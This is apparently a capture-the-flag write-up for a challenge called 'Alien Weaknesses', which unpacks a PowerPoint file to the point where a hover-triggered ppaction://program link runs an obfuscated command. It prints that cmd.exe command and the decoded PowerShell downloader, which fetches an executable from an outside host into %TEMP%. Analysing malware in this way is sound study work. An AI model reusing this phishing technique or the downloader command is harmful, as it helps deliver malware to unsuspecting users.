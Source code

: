 **Description**: -

**Stars**: 2/5

**Downloadable**:
Alien Weaknesses.pptx - a PowerPoint presentation

**Goal**: Given the Alien Weaknesses.pptx file, get the flag

**Solution**: 

Quite interesting challenge, using a very specific ability of Office documents to have external relations.
As we know, the new Office document format since 2007 is basically just a zipped folder of different .xml files describing it. So, first thing we need to do is unpack it with any zip extractor.

Then we can check what’s inside. Powerpoint presentation, has a standard office document format with documentpProperties etc. + ppt folder with one xml file per slide (in this case only one). We will start here to see what’s actually included int the slide.

![Slide1](writeup/slide1.png)

This looks interesting, there’s an image with a strange directive for “a:hlinkHover” event. But what does it mean? 

`ppaction://program` is in fact documented by Microsoft here: https://docs.microsoft.com/en-us/openspecs/office_standards/ms-oi29500/a65b76db-6abc-4989-8cd1-baa9a3500f6f

`[It] specifies that the link shall run an application external to this presentation package. The r:id attribute for this element specifies the corresponding relationship containing the reference to the application. `

So now we need to check this r:id object. Seems this is a relation object and all relations can be usually found in `__rel` folder.

If we check there, we can see that relation `rId2` is in fact an URL encoded command line argument, that is executed after mouse hovers over the image in presentation.

![Slide1](writeup/relation2.png)

What does it do? Well it is a URL encoded command, so we can decode it in CybeChef:

```Batchfile
cmd.exe /V:ON/C"set yM="o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q' + pmet:vne$ = o$" c- llehsrewop&amp;&amp;for /L %X in (122;-1;0)do set kCX=!kCX!!yM:~%X,1!&amp;&amp;if %X leq 0 call %kCX:*kCX!=%"
```

It seems to contain a reversed command string for additional obfuscation. After we reverse it (again in cyberchef) we can see it’s a powershell command:

```powershell
powershell -c "$o = $env:temp  + 'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe'; iwr http:/destroyearth.alien/x.exe -outfile $o
```

It seems to be downloading an executable to the %TEMP% folder, but the domain doesn’t exist. Normally this would be a part of code that we call a “Downloader” malware. Its purpose is to download and execute next stage of the infection chain.

In this case what is interesting for us is file name. It looks like a base64, and in fact if we decode it kind of gives us a flag, but this flag is not yet correct: `CHTB{pH1sHiNg_w0_m4cr0s.Ïß`

There seems to be something wrong in the end. Indeed it is a base64 with slightly changed alphabet (malware actors sometimes change base64 alphabet for additional obfuscation). In this case we have something that is called “URL_safe base64 and is a part of standard RFC 4648 for base encodings. We can choose it as an option in CyberChef and it will give us a correct flag: `CHTB{pH1sHiNg_w0_m4cr0s???}`

